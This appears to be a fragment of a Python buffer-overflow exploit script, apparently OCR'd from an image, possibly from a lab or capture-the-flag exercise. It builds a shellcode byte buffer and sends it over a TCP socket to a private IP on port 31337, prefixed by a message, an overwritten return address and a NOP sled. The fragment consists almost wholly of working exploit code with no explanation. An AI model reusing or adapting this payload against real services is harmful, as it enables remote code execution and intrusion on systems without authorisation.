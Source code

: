 ```python
buf += b"\x1c\x9a\x0b\xe9\x93\x5b\xc5\x1a\xd9\x4f\xb2\xea\x94\x2d"
buf += b"\x15\xf4\x02\x59\xf9\x67\xc9\x99\x74\x94\x46\xce\xd1\x6a"
buf += b"\x9f\x9a\xcf\xd5\x09\xb8\x0d\x83\x72\x78\xca\x70\x7c\x81"
buf += b"\x9f\xcd\x5a\x91\x59\xcd\xe6\xc5\x35\x98\xb0\xb3\xf3\x72"
buf += b"\x73\x6d\xaa\x29\xdd\xf9\x2b\x02\xde\x7f\x34\x4f\xa8\x9f"
buf += b"\x85\x26\xed\xa0\x2a\xaf\xf9\xd9\x56\x4f\x05\x30\xd3\x6f"
buf += b"\xe4\x90\x2e\x18\xb1\x71\x93\x45\x42\xac\xd0\x73\xc1\x44"
buf += b"\xa9\x87\xd9\x2d\xac\xcc\x5d\xde\xdc\x5d\x08\xe0\x73\x5d"
buf += b"\x19"

try:
    print("sending")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.112.61",31337))
    s.send(message + esp_ret + nops + buf + b"\n")
    s.recv(1024)
    s.close()
except:
    print("Cant connect.")
    sys.exit()
```
___
